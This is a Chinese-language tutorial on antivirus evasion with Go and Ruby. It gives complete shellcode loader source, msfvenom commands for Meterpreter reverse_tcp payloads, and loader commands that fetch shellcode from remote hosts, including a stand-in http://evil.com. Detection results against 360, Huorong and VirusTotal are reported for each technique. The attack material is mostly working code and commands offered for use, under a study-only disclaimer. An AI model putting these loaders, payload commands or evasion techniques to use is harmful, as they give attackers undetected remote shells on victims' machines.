**声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担！**

[toc]


**文章打包下载及相关软件下载：[`https://github.com/TideSec/BypassAntiVirus`](https://github.com/TideSec/BypassAntiVirus)**


# 免杀能力一览表




**几点说明：**

**1、上表中标识 √ 说明相应杀毒软件未检测出病毒，也就是代表了Bypass。**

**2、为了更好的对比效果，大部分测试payload均使用msf的`windows/meterperter/reverse_tcp`模块生成。**

**3、由于本机测试时只是安装了360全家桶和火绒，所以默认情况下360和火绒杀毒情况指的是静态+动态查杀。360杀毒版本`5.0.0.8160`(2020.01.01)，火绒版本`5.0.34.16`(2020.01.01)，360安全卫士`12.0.0.2002`(2020.01.01)。**

**4、其他杀软的检测指标是在`virustotal.com`（简称VT）上在线查杀，所以可能只是代表了静态查杀能力，数据仅供参考，不足以作为免杀或杀软查杀能力的判断指标。**

**5、完全不必要苛求一种免杀技术能bypass所有杀软，这样的技术肯定是有的，只是没被公开，一旦公开第二天就能被杀了，其实我们只要能bypass目标主机上的杀软就足够了。**

 ---


# 1 Golang加载shellcode

## 1.1 GO加载shellcode介绍

用Golang做免杀的不是很多，不过也有一些go写的免杀工具，比如专题21里介绍的HERCULES就是把利用go来嵌入shellcode然后编译exe，还有veil、Avoidz都可以生成基于go语言的shellcode，而且免杀效果还不错。

唯一不足的是go编译出来的exe大约2.3M左右，使用upx压缩下大约1.5M,不过相比python编译的exe应该还能接受了，免杀效果还比python-exe要好一些。

Golang也可以分两种方式，一种是将shellcode嵌入go代码然后编译exe，一种是使用go加载器。

## 1.2 Go嵌入shellcode(VT查杀率3/71)

Go中嵌入shellcode的方法不大多，只找到了两种代码，相比python要少很多，也可能是因为毕竟少的缘故，所以免杀效果还是比较好的。

先用msfvenom生成C语言的shellcode，注意要生成x64的。

```
msfvenom -p  windows/x64/meterpreter/reverse_tcp  lhost=10.211.55.2 lport=3333 -f c
```
将shellcode转换一下，变成下面的格式



将转换后的shellcode替换到下面的`shellcode_buf`位置，文件保存为`shell.go`

```
package main

import (
	"io/ioutil"
	"os"
	"syscall"
	"unsafe"
)

const (
	MEM_COMMIT             = 0x1000
	MEM_RESERVE            = 0x2000
	PAGE_EXECUTE_READWRITE = 0x40
)

var (
	kernel32       = syscall.MustLoadDLL("kernel32.dll")
	ntdll          = syscall.MustLoadDLL("ntdll.dll")
	VirtualAlloc   = kernel32.MustFindProc("VirtualAlloc")
	RtlCopyMemory  = ntdll.MustFindProc("RtlCopyMemory")
	shellcode_buf = []byte{
		0xfc, 0x48,  ----shellcode----, 0xd5,
	}
)

func checkErr(err error) {
	if err != nil {
		if err.Error() != "The operation completed successfully." {
			println(err.Error())
			os.Exit(1)
		}
	}
}

func main() {
	shellcode := shellcode_buf
	if len(os.Args) > 1 {
		shellcodeFileData, err := ioutil.ReadFile(os.Args[1])
		checkErr(err)
		shellcode = shellcodeFileData
	}

	addr, _, err := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
	if addr == 0 {
		checkErr(err)
	}
	_, _, err = RtlCopyMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
	checkErr(err)
	syscall.Syscall(addr, 0, 0, 0, 0)
}
```
安装golang，参考：`https://www.runoob.com/go/go-environment.html`

在命令行执行命令`go build`，编译生成`test.exe`，在测试机执行。不过大约两分钟后，360安全大脑提示云查杀报警了。



msf中监听`windows/x64/meterpreter/reverse_tcp`,可上线



virustotal.com上查杀率为3/71



在网上还找到另外一个代码，不过执行和编译老出错，有兴趣的可以试一下，代码如下。
```
package main

import "C"
import "unsafe"

func main() {
    buf := ""
    buf += "xddxc6xd9x74x24xf4x5fx33xc9xb8xb3x5ex2c"
    ...省略...
    buf += "xc9xb1x97x31x47x1ax03x47x1ax83xc7x04xe2"
    // at your call site, you can send the shellcode directly to the C
    // function by converting it to a pointer of the correct type.
    shellcode := []byte(buf)
    C.call((*C.char)(unsafe.Pointer(&shellcode[0])))
}
```
## 1.3 Go加载器

### 1.3.1 go-shellcode加载器(VT查杀率4/69)

需要先下载加载器：`https://github.com/brimstone/go-shellcode`

下载后，进入`go-shellcode\cmd\sc`目录，执行`go build`

生成`sc.exe`



然后用Msfvenom生成hex格式的shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o shell.hex LHOST=10.211.55.2 LPORT=3333
```

使用sc加载器进行加载
```
sc.exe shellcode
```
静态和动态都可过360和火绒



msf中可上线



virustotal.com上`sc.exe`查杀率为4/69



### 1.3.2 gsl加载器(VT查杀率6/71)

gsl是`Jayl1n`根据go-shellcode进行了修改完善的工具。

下载gsl加载器：`wget https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/gsl-sc-loader.zip`

里面包含两个版本，x86和x64。

提供了三种加载方式

1、从参数传入 （必须是HEX格式）

```
gsl -s SHELLCODE -hex
```

2、从文件传入

加载 RAW 格式：`gsl -f shell.raw`

加载 HEX 格式：`gsl -f shell.hex -hex`

3、从远程服务器加载

把 SHELLCODE 文件挂在WEB目录下。（支持HTTP/HTTPS）

加载 RAW 格式：`gsl -u http://evil.com/shell.raw`

加载 HEX 格式：`gsl -u http://evil.com/shell.hex -hex`


以x64为例进行测试，先生成x64的shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=10.211.55.2 LPORT=3333 -f hex -o shell.hex
```
我就试一下远程加载`gsl64.exe -u http://10.211.55.2/shell.hex -hex`



msf中可上线



virustotal.com上`gsl64.exe`查杀率为6/71，因为这个gsl是编译好的，没法自己编译，估计越来越多的杀软都能开始查杀。




# 2 Ruby加载shellcode

## 2.1 Ruby加载shellcode介绍

Ruby做免杀的不是很多，目前好像只遇到专题5中介绍的veil使用了ruby编译exe来进行免杀，目前也没发现基于ruby的shellcode加载器，只找到了一种ruby嵌入shellcode的代码。

## 2.2 Ruby嵌入shellcode(VT查杀率0/58)

先用Msfvenom生成基于ruby的shellcode

```
msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=10.211.55.2 LPORT=3333 -f ruby
```

ruby源码：

```
require 'fiddle'
require 'fiddle/import'
require 'fiddle/types'


shellcode = ""

include Fiddle

kernel32 = Fiddle.dlopen('kernel32')

ptr = Function.new(kernel32['VirtualAlloc'], [4,4,4,4], 4).call(0, shellcode.size, 0x3000, 0x40)

Function.new(kernel32['VirtualProtect'], [4,4,4,4], 4).call(ptr, shellcode.size, 0, 0)

buf = Fiddle::Pointer[shellcode]

Function.new(kernel32['RtlMoveMemory'], [4, 4, 4],4).call(ptr, buf, shellcode.size)

thread = Function.new(kernel32['CreateThread'],[4,4,4,4,4,4], 4).call(0, 0, ptr, 0, 0, 0)

Function.new(kernel32['WaitForSingleObject'], [4,4], 4).call(thread, ‐1)

```

将msfvenom生成的shellcode稍微转换后，写入代码中。



使用命令`ruby shell.rb`执行，360和火绒没有异常行为报警。



msf中设置payload`windows/x64/meterpreter/reverse_tcp`进行监听



virustotal.com中`shell.rb`文件的查杀率为0/58

